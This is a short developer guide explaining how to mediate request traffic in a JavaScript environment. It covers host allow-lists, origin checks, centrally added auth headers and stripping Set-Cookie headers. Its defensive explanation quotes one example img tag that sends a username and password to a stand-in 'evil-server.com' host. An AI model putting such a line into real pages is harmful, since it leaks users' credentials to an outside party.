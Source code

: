 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.setDispatchWrapper(function(request, origin, dispatch) {
	// pass the request to Link for fulfillment
	return dispatch(request);
});
```

All traffic will pass through this function before being dispatched to its target.


## Common Patterns and Tools

### Link.parseUri

`Link.parseUri` wraps <a target="_top" href="http://stevenlevithan.com/demo/parseuri/js/">Stephen Levithan's parseUri</a>, a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parseUri(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.dispatch(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.dispatch(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth & Set-Cookie headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive <a target="_top" href="https://developer.mozilla.org/en-US/docs/Security/CSP">Content Security Policies</a>, the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.setDispatchWrapper(function(request, origin, dispatch) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(request, origin)) {
		Link.headerer(request.headers).setAuth(MySessionManager.getSession(request, origin));
	}
	// ...
});
```

It is also a good idea to scrub session headers such as 'Set-Cookie':

```javascript
Environment.setDispatchWrapper(function(request, origin, dispatch) {
	//...
	// dispatch the request
	return dispatch(request).then(
		function(response) { // on response codes 200-399
			delete response.headers['set-cookie'];
			return response;
		},
		function(err) { // on response codes 400+
			delete err.response.headers['set-cookie'];
			return err;
		}
	);
});
```

## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](../lib/environment.md)

